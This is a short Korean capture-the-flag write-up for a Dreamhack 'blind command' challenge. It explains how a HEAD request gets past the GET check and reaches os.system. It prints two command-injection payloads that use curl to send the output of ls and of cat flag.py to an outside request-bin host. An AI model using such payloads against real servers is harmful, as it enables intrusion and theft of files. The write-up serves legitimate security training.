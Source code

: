 ## 📍blind command

```
Read the flag file XD
```


![[{7E814FC8-CFF4-4D67-8FF6-0BAF0725AE57}.png]]

![[{3A5D69F6-5307-43B4-8303-0E3C91B67296}.png]]

`[cmd]` 부분을 그대로 출력한다.


#### 소스코드

![[{03D52CB1-EA39-4C7F-9518-F9BC0D2CA848}.png]]

GET 요청만 허락하면서 GET 요청이 아니어야 `os.system(cmd)` 함수가 실행되는 괴상한 코드이다.

OPTIONS 메소드로 요청을 보내보면
GET, HEAD, OPTIONS 메소드는 허용된다.
![[{BFA9628F-F98F-42A2-98EB-549D67BCEE1D}.png]]
![[{EE8B758B-43FF-4CD3-8879-497F78C28951}.png]]
![[{CD98C281-DA84-43DA-ABD9-16276683C344}.png]]

OPTIONS 메소드는 지원되는 메소드를 확인할 때만 사용하므로 남은 건 HEAD 뿐이다.
**HEAD** 메소드는 리소스를 GET으로 요청했을 때 응답으로 오는 헤더 부분만 요청하는 메소드이다.


#### Burp Suite
드림핵 툴즈에서 생성한 URL로 `ls` 커맨드를 실행하는 HEAD 요청을 보냈다.
```
HEAD /?cmd=curl%20https://euaavvk.request.dreamhack.games%20-d%20%22$(ls)%22 HTTP/1.1
```

![[{D7436335-FEE3-4136-B16B-2AB922C7878B}.png]]

`ls` 명령 결과가 나타난다.
`flag.py` 파일이 존재하는 것을 알 수 있다.

![[{2243164D-757D-4C8F-982B-3BAC0907681F}.png]]

`cat flag.py` 커맨드를 수행하는 요청을 전송한다.
```
HEAD /?cmd=curl%20https://euaavvk.request.dreamhack.games%20-d%20%22$(cat%20flag.py)%22 HTTP/1.1
```

![[{5F15C2A8-C9A2-4068-9E55-D99B74AE58E2}.png]]